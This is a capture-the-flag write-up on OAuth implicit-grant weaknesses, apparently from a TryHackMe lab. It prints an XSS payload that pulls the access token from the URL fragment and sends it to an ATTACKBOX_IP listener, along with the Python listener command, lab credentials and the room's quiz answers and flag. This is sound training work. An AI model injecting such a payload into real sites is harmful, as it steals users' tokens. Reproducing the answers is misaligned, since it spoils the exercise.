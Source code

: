   ![image](https://github.com/user-attachments/assets/f86e8b91-b181-4257-a014-2ce189fb971a)

- Log in the **CoffeeShopApp** with the credentials **`victim:victim123`**

![image](https://github.com/user-attachments/assets/77f4ebdc-bbee-4f36-bbcd-b68ec51f28e8)

- On this page, we see there's an input field, which is intentionally designed to be vulnerable to XSS.
- Create a script to retrieve the token from the victims: `script.js`

```javascript
<script>var hash = window.location.hash.substr(1);var result = hash.split('&').reduce(function (res, item) {var parts = item.split('=');res[parts[0]] = parts[1];
    return res;
  }, {});
  var accessToken = result.access_token;
    var img = new Image();
    img.src = 'http://ATTACKBOX_IP:8081/steal_token?token=' + accessToken;
</script>
```
- Set up a HTTP server: `python3 -m http.server 8081`

### Victim Machine
- Inject the script into the above input field. Remember to modify the **ATTACKBOX_IP**
- Refresh the page once the script is successfully injected

  ![image](https://github.com/user-attachments/assets/913fac5c-7096-412a-920a-109555efb134)

- We should get the victim's token on the ATTACKBOX's terminal.

   ![image](https://github.com/user-attachments/assets/0da47354-5b78-4016-8a17-b376b2ba2bd1)

- Use it to validate agaisnt the flag validation server to retrieve the flag

**- What symbol separates the access token from the OAuth 2.0 implicit grant flow URL?**

`-> #`

**- Visit the URL http://coffee.thm:8080/flagvalidator/ and enter the access token you acquired. What is the flag value?**

`-> THM{TOKEN_HACKED}`

## Other Vulnerabilities and Evolution of OAuth 2.1
**- Which of the following has been omitted from OAuth 2.1?**

`-> a`
